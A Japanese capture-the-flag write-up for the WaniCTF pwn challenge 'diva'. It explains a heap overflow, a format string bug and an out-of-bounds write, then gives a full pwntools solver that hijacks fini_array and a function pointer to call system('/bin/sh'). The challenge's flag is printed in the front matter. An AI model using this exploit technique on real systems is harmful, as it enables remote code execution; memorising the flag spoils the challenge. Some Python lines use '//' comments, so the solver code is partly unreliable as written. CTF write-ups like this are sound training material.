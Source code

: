 ```yaml
---
title: diva
level: 5
flag: FLAG{in_this_dazzling_time}
writer: EBeb
badge: true
---
```


# DIVA

## 問題文

私の使命は歌でフラグを取ること

`nc diva.pwn.wanictf.org 9008`

HINT

- No RELRO vs Partial RELRO ?

## 解法


### Heap Overflow + FSB + OOB

#### STEP 1. 戻る
line 163 `read(0, textArea[i], 0x40);`にHeapOverflow -> fake chunkの生成が可能
しかし、適切な場所が分からない。

No RELRO & No PIE -> fini_arrayのあドレスが固定で書き換えれる。

ここをmainアドレスにalignを合わせて書き換えることでmainに戻ることができる。

mainでは最後に入力した命令が実行される。

#### STEP 2. 必要なアドレスをLeakさせる

命令はsing, erease writeがある。sing ereaseは関数Pointer配列で管理されている。

sing : 入力した歌詞を出力する。　-> Format String Bug line40

erease : 入力した歌詞を消す。

write :　歌詞を書く。 -> Out of Boundary line 62,63 
	Ereaseやparse varと比較したらBoundary checkがないのが確認できる。

singで必要なアドレスを取る。 
以下のSolverではlibcのアドレスとmain関数のretアドレスを取得

ここで任意の場所に読み込みと書き込みができるようになるため、以下の例は可能な方法中の一つである。

#### STEP 3. もう一度戻って得たLeakを用いてシェルを取得

1回目のループでリークを得てそれを使う2回目のループが必要。

mainのretをheap overflowを用いて書き換える。

writeのOut of Boundaryでfunction pointerのアドレスをsystemに書き換え
solverではsingを書き換える。

singのアドレスが現在Systemになっているため
`sing /bin/sh`



### Solverのコードと結果

```
from pwn import *

pc = connect('localhost',9008)
e = ELF('./chall')


fini_array = e.symbols['__init_array_start']+8

// overwrite fini_array and ready to get the memory leak

payload=b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbb'+p64(0)+p64(0x31)+p64(fini_array)
print(pc.recvuntil(b">"))
#gdb.attach(pc,'b sing')
pc.sendline(b'write %0 a-%10$p-%20$p')
pc.sendlineafter(b">",b'sing %0')
pc.sendlineafter(b">",b'sing %3')
pc.sendlineafter(b">",payload)
pc.sendlineafter(b">",b'payload')
pc.sendlineafter(b">",p64(e.symbols['main'])+p64(e.symbols['main']))
print(pc.recvuntil('🎵a-'))

//リーク情報から必要なアドレスを計算

system=int(pc.recvuntil('-')[:-1],16)-1973632
main_ret=int(pc.recvuntil('🎵')[:-4],16)+8
print(hex(system))
print(hex(main_ret))

//main_retを書き換えてfunction pointer arrayを書き換えてからsing

payload=b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbb'+p64(0)+p64(0x31)+p64(main_ret)
print(pc.recvuntil(b">"))
#gdb.attach(pc,'b sing')
pc.sendline(b'write %* '+p64(system))
pc.sendlineafter(b">",b'eaa')
pc.sendlineafter(b">",b'aaa')
pc.sendlineafter(b">",payload)
pc.sendlineafter(b">",b'sing /bin/sh')
pc.sendlineafter(b">",p64(e.symbols['main']+5))
pc.interactive()
```
